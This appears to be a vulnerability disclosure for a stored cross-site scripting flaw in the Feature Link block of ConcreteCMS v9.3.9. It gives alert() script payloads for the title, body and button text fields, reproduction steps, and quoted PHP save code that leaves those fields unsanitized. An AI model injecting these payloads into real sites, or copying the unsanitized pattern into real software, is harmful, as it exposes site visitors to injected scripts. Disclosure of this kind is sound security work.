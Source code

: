 # Exploit Title: Concretecms v9.3.9 - Cross-Site Scripting (XSS)
## Date: 3/13/2025
## Vendor Homepage: https://github.com/concretecms/concretecms
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Concretecms
## Version: v9.3.9
## Exploit Description:
## ConcreteCMS v9.3.9 suffers from a Stored Cross-Site Scripting (XSS) vulnerability in the Title field、Body Source field、Button Text field when adding a Feature Link block. This vulnerability allows attackers to cheat other users by injecting malicious scripts into web pages viewed by other users.

## ---------------------------------POC-----------------------------

```
<script>alert('Title');</script>
<script>alert('Body Source');</script>
<script>alert('Button Text');</script>
```

1. Use administrator login
2. Click "add content to the page" in the top navigation.
3. Select the Feature Link block , drag and drop it to the page.
4. Add <script>alert('...');</script> to the Title field、Body Source field、Button Text field and then click ADD,the xss vulnerability appears.

Potentially problematic source code:
```php

public function save($args)
    {
        list($imageLinkType, $imageLinkValue) = $this->app->make(DestinationPicker::class)->decode('imageLink', $this->getImageLinkPickers(), null, null, $args);

        $args['buttonInternalLinkCID'] = $imageLinkType === 'page' ? $imageLinkValue : 0;
        $args['buttonFileLinkID'] = $imageLinkType === 'file' ? $imageLinkValue : 0;
        $args['buttonExternalLink'] = $imageLinkType === 'external_url' ? $imageLinkValue : '';
        $security = $this->app->make('helper/security');
        $args['icon'] = $security->sanitizeString($args['icon'] ?? '');
        $args = $args + [
            'fID' => 0,
        ];
        $args['fID'] = $args['fID'] != '' ? $args['fID'] : 0;

        parent::save($args);
    }
```